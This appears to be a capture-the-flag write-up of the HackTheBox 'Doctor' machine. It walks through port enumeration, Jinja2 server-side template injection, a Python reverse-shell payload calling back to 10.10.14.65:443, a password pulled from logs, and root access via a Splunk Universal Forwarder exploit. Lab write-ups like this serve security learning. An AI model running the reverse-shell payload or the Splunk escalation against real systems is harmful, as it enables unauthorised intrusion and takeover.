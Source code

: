 1, Recon
enumerate the ports
	22/tcp ssh
	80/tcp http
	8089/tcp ssl/http `Splunkd httpd`

In this place ,there is a tricky thing, when we change the hosts file and add the `doctors.htb`
The index page would redirect to `/login?next=%2F`
I guess it would because of port 8089 is the main domain page.
\
Let's register an account and we can update the account information
![[Pasted image 20240904044014.png]]

When we want to exchange to the admin ,we can find user admin is existed.

When we successfully post the first post, we can find something interesting from the source code 
`<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->`

Let's check this url.

Visiting returns XML about the posts that exist:
```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>hello</title></item>

			</channel>
```

I tried to send payloads that might identify some kind of XXE vulnerability, but didn’t find anything useful.
```
Python web servers can be vulnerable to Server Side Template Injections. If the user input isn’t sanitized, it can be included in template code rather than handled as text, and this can allow for remote code execution. OWASP has a page that goes into good detail on the background. A quick example would be a Python Jinja2-based server that has a route like this:

@app.route("/hello")
def hello():
    user = request.values.get("user")
    return Jinja2.from_string(f'Hello {user}!').render()

If the user submits a get request like /hello?user={{7*7}}, the result would be Hello 49!, because the render function would process the text inside curly brackets.
```

We can find it worked.
```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>hello</title></item>

			</channel>
			<item><title>49</title></item>

			</channel>
```

I’ll grab the RCE payload from PayloadsAllTheThings and modify it by putting in my IP / port, and changing the process to bash -i to get a shell:
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.65\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

```

As web, I can see one other user on the box, shaun:
user.txt is in shaun’s home directory, but I can’t read it yet.

web is also a member of the adm group:
`uid=1001(web) gid=1001(web) groups=1001(web),4(adm)`

This is interesting because it means that web can read log files. I did a quick grep through all the logs for the string passw (which should get both “passwd” and “password”):
`grep -r passw . 2>/dev/null`
These would be useful for us:
```
"POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
We are lucky, this is user `shaun` password.

3,Shell as root.
let's check `sudo -l`
```
sudo -l
[sudo] password for shaun: Guitar123

Sorry, user shaun may not run sudo on doctor.
```

But there is something interesting we found:
`-rw-rw-r-- 1 shaun shaun   66 Sep 15  2020 .selected_editor`

```
# Generated by /usr/bin/select-editor
SELECTED_EDITOR="/bin/nano"

-rwxr-xr-x 1 root root 2442 Nov 17  2019 /usr/bin/select-editor
```

But I think this would be rabbit hole, so let's come to port 8089 
`Splunkd httpd` 
`Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF)`
`https://github.com/cnotin/SplunkWhisperer2.git`

Then we have the username `shaun` and password `Guitar123`
We can run this exploit and get the root shell.

